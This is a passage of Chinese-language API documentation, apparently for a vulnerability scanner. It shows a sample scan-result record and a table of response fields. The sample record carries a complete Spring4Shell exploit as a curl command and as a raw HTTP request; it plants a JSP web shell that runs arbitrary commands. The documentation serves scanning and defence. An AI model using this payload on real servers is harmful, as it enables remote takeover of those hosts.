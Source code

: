 ```json
      "curl_command": "curl http://example.org/actuator?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream();%20int%20a%20%3D%20-1;%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D;%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=",
      "target": "example.org",
      "matcher_name": "spring-rce",
      "request": "GET /actuator?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream();%20int%20a%20%3D%20-1;%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D;%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1\r\nHost: example.org\r\n\r\n",
      "response": "HTTP/1.1 200 OK\r\nServer: Apache Tomcat/9.0.58\r\nContent-Type: text/html\r\n\r\n<html>...</html>",
      "task_id": "60f8c2b2e13e4b1e8c8b1234",
      "create_time": "2023-05-01T08:32:00.000Z"
    }
    // ... 更多扫描结果记录
  ],
  "query": {
    "vuln_severity": "critical"
  }
}
```

**响应字段说明**：

| 字段名                 | 类型     | 说明                  |
| ---------------------- | -------- | --------------------- |
| total                  | number   | 符合条件的记录总数    |
| page                   | number   | 当前页码              |
| size                   | number   | 每页记录数            |
| items                  | array    | 扫描结果记录数组      |
| items[].\_id           | string   | 扫描结果记录唯一ID    |
| items[].template_url   | string   | 模版文件URL           |
| items[].template_id    | string   | 模版ID                |
| items[].vuln_name      | string   | 漏洞名称              |
| items[].vuln_severity  | string   | 漏洞等级              |
| items[].vuln_url       | string   | 漏洞URL               |
| items[].curl_command   | string   | curl命令              |
| items[].target         | string   | 目标                  |
| items[].matcher_name   | string   | 匹配器名称            |
| items[].request        | string   | 请求内容              |
| items[].response       | string   | 响应内容              |
| items[].task_id        | string   | 关联任务ID            |